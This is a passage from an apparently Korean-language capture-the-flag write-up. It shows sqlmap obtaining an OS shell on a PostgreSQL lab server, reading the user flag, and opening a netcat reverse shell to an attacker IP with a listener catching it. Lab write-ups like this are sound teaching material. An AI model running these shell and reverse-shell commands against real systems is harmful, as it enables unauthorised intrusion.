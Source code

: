 ``` bash
[21:16:08] [INFO] testing if current user is DBA
[21:16:09] [INFO] retrieved: '1'
[21:16:09] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[21:16:09] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a]
[21:16:22] [INFO] retrieved: 'postgres'
command standard output: 'postgres'
```

os-shell로 접속 후 바로 user.txt의 flag를 확인할 수 있다.
``` bash
os-shell> ls /var/lib/postgresql
[21:18:17] [INFO] retrieved: '11'
[21:18:18] [INFO] retrieved: 'user.txt'
command standard output:
---
11
user.txt
---

os-shell> cat /var/lib/postgresql/user.txt
[21:18:48] [INFO] retrieved: 'ec9b13ca4d6229cd5cc1e09980965bf7'
command standard output: 'ec9b13ca4d6229cd5cc1e09980965bf7'
```

nc 파일을 대상 서버로 옮겨 리버스 쉘을 맺으려 했으나 자꾸 실패하였다. 원래라면 그냥 불편하게 os-shell을 통해 해도 되지만, 이상하게도 해당 방식으로 파일의 내용을 출력하거나 할 경우 나오지 않는 경우가 많아 해결이 필요했다.
``` bash
# 대상 서버
os-shell> /var/lib/postgresql/nc 10.10.14.175 443 -e sh
[23:31:17] [WARNING] the SQL query provided does not return any output
[23:31:17] [INFO] retrieved:
No output

# 공격자 서버
┌──(root㉿kali)-[/home/user]
└─# nc -lvp 443
listening on [any] 443 ...
10.129.250.55: inverse host lookup failed: Unknown host
connect to [10.10.14.175] from (UNKNOWN) [10.129.250.55] 50172
```

아래는 파일 내용이 분명 존재하는 파일이지만, os-shell로는 확인이 불가한 특이한 현상이 발생하였다. 파일 내용을 보려면 하나하나 python 서버를 띄워 별도로 옮기는 불편한 과정이 발생한다.
``` bash
os-shell> cat /var/www/html/dashboard.php

[04:30:30] [WARNING] the SQL query provided does not return any output
[04:30:30] [INFO] retrieved:
No output
```
